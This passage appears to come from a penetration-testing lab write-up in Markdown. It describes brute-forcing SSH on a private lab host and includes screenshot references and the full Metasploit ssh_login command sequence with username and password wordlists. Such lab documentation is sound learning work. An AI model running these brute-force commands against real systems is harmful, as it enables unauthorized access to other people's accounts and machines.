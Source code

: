 
<p align="center">
  <img src="./phase1Screenshots/nmap_scan_ssh_only.png" width="500"/>
  <br><em>Nmap focused SSH scan</em>
</p>

---

## ⚔️ Task 1.1 – Exploiting SSH using Metasploit

We created dictionaries of common usernames and passwords and used Metasploit’s `ssh_login` module to brute-force access.

### 🔐 Metasploit Commands Used:
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.0.172
set USER_FILE usernames.txt
set PASS_FILE passwords.txt
set STOP_ON_SUCCESS true
run
```

<p align="center">
  <img src="./phase1Screenshots/msf_bruteforce_run.png" width="500"/>
  <br><em>Metasploit Bruteforce Running with Wordlists</em>
</p>
